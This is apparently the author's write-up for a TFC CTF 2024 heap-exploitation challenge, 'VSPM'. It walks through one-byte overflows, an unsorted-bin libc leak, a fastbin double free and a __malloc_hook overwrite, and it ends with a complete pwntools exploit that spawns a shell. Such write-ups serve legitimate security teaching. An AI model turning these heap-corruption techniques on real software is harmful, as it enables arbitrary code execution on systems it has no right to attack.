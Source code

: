 ```yaml
---
title: "VSPM official writeup"
description: "VSPM is a pwn challenge I created for TFC CTF 2024."
date: "Aug 02 2024"
---
```

VSPM uses GLIBC 2.30 however it uses a libc that has tcache disabled. The binary also has all mitigations enabled:
![](./checksec.png)

It is a generic heap challenge with 3 useful functions
![](./main.png)

We'll begin with the functions at the end. If we decide to delete a password:
![](./delete.png)

At first glance, the function seems safe. It initially verifies that the pointer we're trying to free is not null. Then, after freeing the memory, it sets the pointer to null. The only missing check is an index validation to ensure that we don't access an index beyond the size of the global array holding these values. However, this won't be relevant for the intended method of exploitation.

Next, the print function:
![](./print.png)

It appears that this prints a string saved next to the pointer of the heap chunk, which represents the "Name" of the stored password. Then, it prints the contents of the heap chunk itself. All of this occurs if the pointer at the chosen index is not null.

Last but not least, the save password function:
![](./malloc.png)

The function searches for the first available spot in the global array where the pointer is null and allocates a new chunk there. It then verifies that the size of the chunk does not exceed 0x78. We can notice two one-byte overflows occurring: one in the "name" array located next to the chunk pointer, and the other in the heap.

The first step is to get a libc leak and to get one we would need to free an unsorted bin. The unsorted bin is a circular doubly-linked list, and chunks are placed into it when they are freed, provided they are larger than the fastbin maximum size (typically more than 0x80 bytes). Chunks in the unsorted bin are linked together using forward (fd) and backward (bk) pointers. The first chunk in the unsorted bin has its fd and bk pointers pointing to the main arena's bin headers, effectively linking the unsorted bin into the main arena's data structure.

I noted that we cannot allocate a chunk with a size large enough to be placed in the unsorted bin directly. Instead, we can exploit a one-byte overflow to overwrite the size field of the next chunk in the heap, making it eligible to be placed in the unsorted bin.
```python
malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)
```
I initially allocated a chunk, which I would later free, to make it possible to reallocate it and overwrite the size of the following chunk. Next, I allocated two chunks of size 0x50 each, along with another chunk of size 0x20. The 0x20-sized chunk was included because, due to the implementation of the unsorted bin, if the unsorted bin is adjacent to the top chunk, malloc will automatically merge it with the top chunk’s size, preventing us getting a libc leak. Afterward, I freed the initial chunk and used it to overwrite the size of the second chunk with 0xa1 (which is 0x50 + 0x50 + 1, ensuring that the prev_inuse flag is set, which is a bit that indicates whether the previous chunk is allocated or not).

Since everything is properly aligned, malloc will recognize the second chunk as a valid unsorted bin. When we free it, we'll be able to retrieve the libc pointers.
![](./vis.png)

Now, lets print all the passwords and get our libc leak!
![](./list.png)

However, we encounter an issue: the print function's check prevents it from displaying pointers that have already been freed. This is where the second one-byte overflow becomes useful. Before listing the passwords, we can overwrite the last byte of a pointer from a valid chunk with a pointer to a chunk that we plan to free. This effectively creates two pointers pointing to the same chunk. As a result, we can free the chunk and then print it, despite it having been freed.
```python
malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(2)
malloc(0x50-8, b'E'*8, b'F'*32+p8(0x40))

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)

list()
```
With this, we'll finally be able to get our leak.

To get our shell, we'll use the same technique from earlier to create two pointers on the same chunk and create a double free attack. A double free occurs when the free() function is called more than once for the same memory address without allocating it again in between. Now, when you request a new chunk of that size using malloc, the allocator will allocate a block that has been freed twice. This can result in two different pointers referencing the same memory location. If an attacker controls one of these pointers, they can alter the contents of the memory, potentially enabling them to execute arbitrary code.

Before the ```&__malloc_hook``` address in memory, there are other libc addresses. To exploit this, we can deceive malloc by using the first byte of one of these addresses (which will be 0x7f) to create a valid-sized chunk. This approach allows us to overwrite the malloc_hook.

The final exploit:
```python
#!/usr/bin/env python3

from pwn import *
elf = ELF("./chall")
libc = ELF("./libc-2.30.so")
p = elf.process()
#p = remote('challs.tfcctf.com',31809)

def malloc(size, chunk, name):
	p.readuntil(b'Input: ')
	p.sendline(b'1')
	p.readuntil(b'length: ')
	p.sendline(str(size).encode())
	p.readuntil(b'credentials: ')
	p.send(chunk)
	p.readuntil(b'credentials: ')
	p.send(name)

def free(index):
	p.readuntil(b'Input: ')
	p.sendline(b'3')
	p.readuntil(b'index: ')
	p.sendline(str(index).encode())

def list():
	p.readuntil(b'Input: ')
	p.sendline(b'2')


malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(2)
malloc(0x50-8, b'E'*8, b'F'*32+p8(0x40))

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)

list()
p.readuntil(b'HHHHHHHH --> ')
leak = u64(p.read(6).ljust(8, b'\x00'))
libc.address = leak - 3886016
print("Libc base at {}".format(hex(libc.address)))

malloc(0x50-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)

malloc(0x70-8, b'A'*24, b'B'*8)
malloc(0x70-8, b'C'*24, b'D'*8)
malloc(0x70-8, b'E'*24, b'F'*8)
free(6)
malloc(0x70-8, b'C'*24, b'D'*32+p8(0x00))

free(5)
free(6)
free(7)

malloc(0x70-8, p64(libc.sym.__malloc_hook - 35), b'C'*8)
malloc(0x70-8, b'D'*8, b'E'*8)
malloc(0x70-8, b'F'*8, b'G'*8)
malloc(0x70-8, b'X'*19 + p64(libc.address + 0xe1fa1), b'Z'*8)

p.sendline(b'1')
p.sendline(b'0')


p.interactive()
```

And we get a shell!
![](./shell.png)

Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/vspm.zip)